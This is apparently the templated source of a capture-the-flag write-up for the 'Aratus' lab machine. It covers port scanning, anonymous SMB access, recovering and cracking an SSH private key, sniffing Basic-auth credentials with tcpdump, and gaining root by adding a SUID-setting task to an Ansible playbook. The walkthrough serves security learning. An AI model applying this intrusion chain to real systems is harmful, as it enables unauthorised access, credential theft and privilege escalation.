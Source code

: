 {% from "macros.html" import console, image, text, code, list, link, header, script, imageModal %}

{{imageModal()}}

{{header("Enumeration", "enumeration")}}

{{text("We perform a basic port scan.")}}

{{console("nmap -T5 -p- -sV 10.10.157.254", "Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-09 17:59 CET
Nmap scan report for 10.10.157.254
Host is up (0.077s latency).
Not shown: 65370 filtered tcp ports (no-response), 159 filtered tcp ports (host-unreach)
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
139/tcp open  netbios-ssn
443/tcp open  https
445/tcp open  microsoft-ds

Nmap done: 1 IP address (1 host up) scanned in 217.44 seconds
")}}

{{text("We find a lot of open ports.")}}

{{list(['22 (SSH)', '22 (FTP)', '80 (HTTP)', '139 (netbios-ssn)', '443 (https)', '445 (microsoft-ds)'])}}

{{text("I started by trying to find anything on the FTP server, but that didn't work out.")}}

{{text("The web server also didn't have anything useful.")}}

{{text("What did have something useful is the SMB server running on port 139.")}}

{{header("SMB Server", "smb-server")}}

{{text("By login anonymously and not providing a password we were able to find a <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>temporary share</code> that looked suspicious.")}}

{{console("smbclient -L //10.10.157.254/", "Password for [WORKGROUP/user]:
Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	temporary share Disk      
	IPC$            IPC       IPC Service (Samba 4.10.16)
Reconnecting with SMB1 for workgroup listing.
Anonymous login successful

	Server               Comment
	---------            -------

	Workgroup            Master
	---------            -------")}}

{{text("We access this share.")}}

{{console("smbclient '//10.10.157.254/temporary share'", "Password for [WORKGROUP/user]:
Anonymous login successful
Try 'help' to get a list of possible commands.
smb: /> ls
  .                                   D        0  Mon Jan 10 14:06:44 2022
  ..                                  D        0  Tue Nov 23 17:24:05 2021
  .bash_logout                        H       18  Wed Apr  1 04:17:30 2020
  .bash_profile                       H      193  Wed Apr  1 04:17:30 2020
  .bashrc                             H      231  Wed Apr  1 04:17:30 2020
  .bash_history                       H        0  Mon Dec  9 17:37:32 2024
  chapter1                            D        0  Tue Nov 23 11:07:47 2021
  chapter2                            D        0  Tue Nov 23 11:08:11 2021
  chapter3                            D        0  Tue Nov 23 11:08:18 2021
  chapter4                            D        0  Tue Nov 23 11:08:25 2021
  chapter5                            D        0  Tue Nov 23 11:08:33 2021
  chapter6                            D        0  Tue Nov 23 11:12:24 2021
  chapter7                            D        0  Tue Nov 23 12:14:27 2021
  chapter8                            D        0  Tue Nov 23 11:12:45 2021
  chapter9                            D        0  Tue Nov 23 11:12:53 2021
  .ssh                               DH        0  Mon Jan 10 14:05:34 2022
  .viminfo                            H        0  Mon Dec  9 17:37:32 2024
  message-to-simeon.txt               N      251  Mon Jan 10 14:06:44 2022
")}}

{{text("Let's use <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>mget *</code> to download all the files.")}}

{{text("Be sure to use <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>RECURSE ON</code> and <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>PROMPT OFF</code> before getting the files.")}}

{{image("../../static/writeups/aratus/images/000001.jpg")}}

{{text("We should read the message to simeon.")}}

{{console("cat message-to-simeon.txt", "Simeon,

Stop messing with your home directory, you are moving files and directories insecurely!
Just make a folder in /opt for your book project...

Also you password is insecure, could you please change it? It is all over the place now!

- Theodore")}}

{{header("Shell as simeon", "shell-as-simeon")}}

{{text("We should check if in the directories we downloaded is a password to user <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>simeon</code>.")}}

{{console("grep -riE 'password|key|secret|pass'", "chapter7/paragraph7.1/text2.txt:-----BEGIN RSA PRIVATE KEY-----
chapter7/paragraph7.1/text2.txt:s+1rJAjjcKxFS7lxPiCID6j/hZvsdjXnPScH2e/lQ1bMUk2rOCsDKCKeY0YGCkvI
chapter7/paragraph7.1/text2.txt:-----END RSA PRIVATE KEY-----
message-to-simeon.txt:Also you password is insecure, could you please change it? It is all over the place now!")}}

{{text("There is a text file that contains a file with a RSA private key.")}}

{{text("Let's use it to log in via SSH.")}}

{{image("../../static/writeups/aratus/images/000002.jpg")}}

{{text("It seems like we need a passphrase as well. The note mentioned that the password is insecure so we should be able to brute-force it pretty easily.")}}

{{image("../../static/writeups/aratus/images/000003.jpg")}}

{{text("Now we are able to log in as the user <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>simeon</code>.")}}

{{header("Shell as theodore", "shell-as-theodore")}}

{{text("I ran <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>linpeas</code> on the target and noticed we are able to use <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>tcpdump</code>.")}}

{{text("If we listen for packets send to the HTTP protocol (which are not encrypted), we might be able to catch users credentials.")}}

{{text("We use <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>tcpdump</code> to catch packets on any network interface, we capture the whole packet and use verbose mode for more detailted output on port 80")}}

{{console("tcpdump -i any -s0 -vv port 80", "    localhost.54536 > localhost.http: Flags [P.], cksum 0xff07 (incorrect -> 0xa319), seq 1:224, ack 1, win 683, options [nop,nop,TS val 3768223 ecr 3768222], length 223: HTTP, length: 223
	GET /test-auth/index.html HTTP/1.1
	Host: 127.0.0.1
	User-Agent: python-requests/2.14.2
	Accept-Encoding: gzip, deflate
	Accept: */*
	Connection: keep-alive
	Authorization: Basic dGhlb2RvcmU6Uml[REDACTED]")}}

{{text("We capture base64 encoded credentials which after decoding give us user's <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>theodore</code> password.")}}

{{image("../../static/writeups/aratus/images/000004.jpg")}}

{{header("Shell as root", "shell-as-root")}}

{{text("Since we know our user's password, we can check his sudo privilages.")}}

{{console("sudo -l", "Matching Defaults entries for theodore on aratus:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep='COLORS DISPLAY HOSTNAME HISTSIZE
    KDEDIR LS_COLORS', env_keep+='MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE', env_keep+='LC_COLLATE LC_IDENTIFICATION
    LC_MEASUREMENT LC_MESSAGES', env_keep+='LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE', env_keep+='LC_TIME LC_ALL LANGUAGE
    LINGUAS _XKB_CHARSET XAUTHORITY', secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User theodore may run the following commands on aratus:
    (automation) NOPASSWD: /opt/scripts/infra_as_code.sh")}}

{{text("It looks like we can execute the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>infra_as_code.sh</code> file as the user <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>automation</code>. Let's read this file.")}}

{{console("cat infra_as_code.sh", "#!/bin/bash
cd /opt/ansible
/usr/bin/ansible-playbook /opt/ansible/playbooks/*.yaml")}}

{{text("This script runs <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>ansible-playbook</code> on all the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>.yaml</code> files inside of <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/opt/ansible/playbooks</code>.")}}

{{text("When I tested the script, I noticed it also run 2 additional files.")}}

{{image("../../static/writeups/aratus/images/000005.jpg")}}

{{text("I added a command to one of these files that will add a <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>SUID</code> to <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/bin/bash</code>, allowing us to become root.")}}

{{console("cat configure-RedHat.yml", "---
- name: Configure Apache.
  lineinfile:
    dest: '{{ apache_server_root }}/conf/{{ apache_daemon }}.conf'
    regexp: '{{ item.regexp }}'
    line: '{{ item.line }}'
    state: present
    mode: 0644
  with_items: '{{ apache_ports_configuration_items }}'
  notify: restart apache

- name: Check whether certificates defined in vhosts exist.
  stat: path={{ item.certificate_file }}
  register: apache_ssl_certificates
  with_items: '{{ apache_vhosts_ssl }}'

- name: Add SUID bit to /bin/bash
  file:
    path: /bin/bash
    mode: u+s
  become: yes")}}

{{text("Now we run the script as the user automation and use <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/bin/bash -p</code> after to become root.")}}

{{image("../../static/writeups/aratus/images/000006.jpg")}}

{{script()}}
